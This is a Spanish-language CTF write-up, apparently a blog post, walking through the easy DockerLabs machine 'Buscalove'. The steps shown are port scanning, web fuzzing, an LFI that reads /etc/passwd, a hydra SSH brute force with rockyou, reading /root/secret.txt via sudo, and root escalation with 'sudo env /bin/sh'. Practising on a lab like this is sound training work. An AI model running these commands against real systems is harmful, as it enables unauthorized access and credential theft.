 ```yaml
---
layout: post
title: "Buscalove"
date: 2024-09-06
 14:20:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Buscalove </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.**  Descubriendo los puertos abiertos y servicios que corren, tenemos el ssh corriendo y el servicio web de apache.

`sudo nmap -p- --open -T5 --min-rate=5000 -sCV -n -Pn 172.18.0.2`

![img](/notas/public/img/dockerlabs/buscalove/nmap.png){:.margin}

**2\.** En la web corre apache por defecto, asi que hacemos un poco de fuzzing web, vemos una ruta wordpress.

`gobuster dir -u http://172.18.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/buscalove/gobuster.png){:.margin}

**3\.** Hacemos otra vez fuzzing ahora dentro de wordpress, encontramos un index.php.

`gobuster dir -u http://172.18.0.2/wordpress/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

`http://172.18.0.2/wordpress/index.php`

![img](/notas/public/img/dockerlabs/buscalove/gobusterwordpress.png){:.margin}

**4\.** Hacemos fuzzing de parametros en busca de un LFI, wfuzz nos reporta un parametro valido.

`wfuzz -c --hc=400 --hl=40 -w /usr/share/wordlists/rockyou.txt 'http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../../etc/passwd'`

![img](/notas/public/img/dockerlabs/buscalove/wfuzz.png){:.margin}

**5\.** Vamos a la web para ver el LFI, presionamos ctrl+u para visualizar mejor, filtro los usuarios disponibles.

`http://172.18.0.2/wordpress/index.php?love=../../../../../../../etc/passwd`

![img](/notas/public/img/dockerlabs/buscalove/codelfi.png){:.margin}

**6\.** Toca hacer fuerza bruta al ssh con los usuarios disponibles, en este caso el que me dio resultado fue el usuario rosa.

`hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 64`

![img](/notas/public/img/dockerlabs/buscalove/hydra.png){:.margin}

**7\.** Nos conectamos por ssh como usuario rosa.

`ssh rosa@172.18.0.2`

![img](/notas/public/img/dockerlabs/buscalove/sshrosa.png){:.margin}

**8\.** Encuentro un dos binarios que podemos ejecutar como cualquier usuario, revisamos la carpeta de root, vemos que el archivo secreto contiene un hexadecimal.

`sudo -l`

`sudo -u root /usr/bin/ls -la /root/`

`sudo -u root /usr/bin/cat /root/secret.txt`

![img](/notas/public/img/dockerlabs/buscalove/sudolrosa.png){:.margin}

**9\.** Para decodear usamos [cyberchef](https://gchq.github.io/CyberChef/), deducimos que es una contraseña y del otro usuario que tenemos que es pedro.

![img](/notas/public/img/dockerlabs/buscalove/cyberchef.png){:.margin}

**10\.** Migramos al usuario pedro, revisamos los permisos sudo y encontramos un binario con todos los permisos.

`su pedro`

`sudo -l`

![img](/notas/public/img/dockerlabs/buscalove/sudolpedro.png){:.margin}

**11\.** Escalando privilegios a root, revisamos la utilidad de env en [gtfobins](https://gtfobins.github.io/gtfobins/env/#sudo).

`sudo -u root env /bin/sh`

![img](/notas/public/img/dockerlabs/buscalove/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>